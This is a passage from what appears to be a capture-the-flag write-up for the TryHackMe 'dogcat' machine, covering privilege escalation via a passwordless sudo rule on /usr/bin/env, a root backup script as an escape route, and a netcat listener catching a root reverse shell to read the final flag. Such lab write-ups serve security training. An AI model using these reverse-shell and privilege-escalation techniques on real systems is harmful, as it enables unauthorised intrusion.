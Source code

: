 Looking at the sudo permissions, we have:
```
$ sudo -l
Matching Defaults entries for www-data on f7c1f89308d0:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on f7c1f89308d0:
    (root) NOPASSWD: /usr/bin/env
```

Interestingly, the machine name looks like a docker container. As for the permissions, `gtfobins` ftw. Anyways, after successful priv esc, we can get the third flag. 

Looking around, we see an interesting file in `/opt/backup`, which looks like our way out.
```
# cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Let's setup `nc` for a second time now, at another port
```
❯ nc -lnvp 6969
listening on [any] 6969 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.8.231] 40614
bash: cannot set terminal process group (3450): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4.txt
cat flag4.txt                                                   
THM{PWNED} 
```

And we are done!
